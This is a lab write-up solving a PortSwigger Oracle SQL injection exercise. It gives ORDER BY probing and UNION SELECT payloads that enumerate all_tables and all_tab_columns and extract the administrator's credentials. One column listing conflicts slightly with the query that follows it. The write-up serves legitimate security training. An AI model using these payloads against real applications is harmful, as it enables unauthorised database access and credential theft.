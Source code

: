 # Write-up: SQL injection attack, listing the database contents on Oracle
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In this lab, firstly we need to find the number of columns returned by the query. We are also unaware of the database type. Then we need to list the database tables and then a table that contains the user credentials and also the column names. Finally, we need to list the username and password of the administrator from this table.

To find the number of columns returned by the query, we can use the `ORDER BY` method. We will start with `ORDER BY 1` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we get error at `ORDER BY 3`, which means the number of columns is 2.

The link is like `/filter?category=Lifestyle'+ORDER+BY+3--`

sqli payload here is
```sql
' ORDER BY 3--
```

### Solution

Now, to list the database tables, we can use the `all_tables` table in oracle. The column `table_name` contains the table names. We can use the following link to list the tables.
`Lifestyle'+UNION+SELECT+table_name,'abc'+FROM+all_tables--`

The sqli payload will be
```sql
UNION SELECT table_name, 'abc' FROM all_tables
```

Above query gives a whole lot of tables. We can filter out the tables that contain the user credentials. 
After going through all tables found potential target `USERS_OXBEIB`.

Enumerating this table to find the column names, we can use the following link.
`Lifestyle'+UNION+SELECT+column_name,'abc'+FROM+all_tab_columns+WHERE+table_name='USERS_OXBEIB'--`

The sqli payload will be
```sql
UNION SELECT column_name,'abc' FROM all_tab_columns WHERE table_name='USERS_OXBEIB'
```

This gives the column names email, USERS_OXBEIB, PASSWORD_MKKHXL. Since we only need the username and password, we can use the following link.
`Lifestyle'+UNION+SELECT+USERNAME_OTBDNT,PASSWORD_MKKHXL+FROM+USERS_OXBEIB--`

The sqli payload will be
```sql
UNION SELECT USERNAME_OTBDNT, PASSWORD_MKKHXL FROM USERS_OXBEIB
```

This gives the username and password for `administrator` of the user and the last step is now to login as administrator. Hence, solves the lab.

![alt text](img/2.png)